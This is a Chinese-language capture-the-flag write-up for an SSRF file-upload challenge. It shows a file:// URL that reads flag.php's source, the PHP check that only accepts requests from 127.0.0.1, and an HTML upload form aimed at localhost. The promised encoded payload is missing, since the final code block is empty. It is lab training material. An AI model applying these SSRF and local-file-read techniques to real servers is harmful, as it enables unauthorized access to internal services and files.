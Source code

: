 
### 上传文件
提示：这次需要上传一个文件到flag.php了.我准备了个302.php可能会有用.祝你好运

使用file伪协议读取到源码`?url=file:///var/www/html/flag.php`
```php
<?php

error_reporting(0);

if($_SERVER["REMOTE_ADDR"] != "127.0.0.1"){
    echo "Just View From 127.0.0.1";
    return;
}

if(isset($_FILES["file"]) && $_FILES["file"]["size"] > 0){
    echo getenv("CTFHUB");
    exit;
}
?>
```
题目让我们通过127.0.0.1访问flag.php上传一个文件上去就会返回flag
在构造请求之前我们随便构造一个文件上传的代码，如下：
```html
<!DOCTYPE html>
<html>
<head>
<title>test XXE</title>
<meta charset="utf-8">
</head>
<body>
<form action="http://127.0.0.1/flag.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" value="go" />
</form>
</body>
```
随便上传一个文件并进行抓包，得到了一个数据包
![](https://img-blog.csdnimg.cn/20200928161502784.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L2JtdGg2NjY=,size_16,color_FFFFFF,t_70#pic_center)
然后进行三次url编码，最后得到：(不知道为何我的url编码总是不成功，这是复制大佬的payload)
```
```
